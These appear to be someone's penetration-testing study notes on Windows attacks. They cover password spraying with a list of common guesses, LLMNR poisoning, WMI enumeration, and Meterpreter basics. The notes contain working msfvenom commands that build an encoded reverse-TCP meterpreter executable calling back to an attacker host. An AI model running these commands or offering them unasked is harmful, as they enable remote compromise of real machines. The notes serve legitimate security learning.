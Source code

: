 	_backup if Kerberos is not available_
Password-Based Attacks
	Local passwords are stored in the SEcurity Account Manager (SAM) database. SAM = /etc/shadow
		_allows an attacker to **brute force**, or attempt to log in to an account by trying multiple passowrds_
	Local accounts, by default, wont be disabled from logging in to a bad password, howeveer, events are still generated by Windows for each failed login attempt, even for local accounts.
		Password Spraying
			: getting a list of usernames and attempting a single password for those accounts.
		1. SeasonYear
		2. variation "password"
		3. PresidentYear
		4. LetMeIn
		5. IloveYou
Local Link Multicast Name Resolution (LLMNR) 
	: older broadcast protocol that serves as a local backup for DNS.
		LLMNR poisoning
			1. attacker listens for LLMNR requests
			2. windows machine user tries to visit a network share that doesn't exist, or makes a typo trying to visit an existing one.
			3. The victim's computer asks the DNS server if it knows where the network share is. If it doesn't, the computer asks the DHCP.
Windows Exploitation and WMI
```PowerShell
**demo**
#get processes
Get-wmiobject Win32_process -computername windc01
$list = Get-wmiobject Win32_Process -computername windc01
$list.name #pulls the list variable with the name of each item in the list

#get services
get-wmiobject win32_service -computername windc01

#non wmic commands
tasklist          #lists processes
systeminfo        #lists system information
net session       #lists logged in users
net share         #lists shares
```
#### msfvenom
Payload
	: the shell code that runs when an exploit successfully compromises a system.
		_attackers build their own custom payloads that they include in phishing emails_
Countermeasure
	1. IDS/IPS
	2. AV solutions
```bash
msfvenom -l payloads    #list payloads
msfvenom -l formats     #list formats
msfvenom -l encoders    #list encoders
msfvenom -p windows/meterpreter/reverse_tcp -a x86 -e x86/shikata_ga_nai -f exe -o /tmp/malware.exe
#crafting a payload with x86 architecture, x86/shikata encoding, exe format into /tmp/malware.exe
msfvenom -p windows/meterpreter/reverse_tcp LHOST="my ip" LPORT=4444 -f exe R > hack.exe
```
#### meterpreter
Meterpreter
	similar to using a normal shell, but it has its own built-in commands and pen testting features. Almost like an extendable command shell.
		Common payloads are `windows/meterpreter/reverse_)tcp`
	`sessions -i 1 # connects to sessions`
Meterpreter commands
```bash
?
getuid
```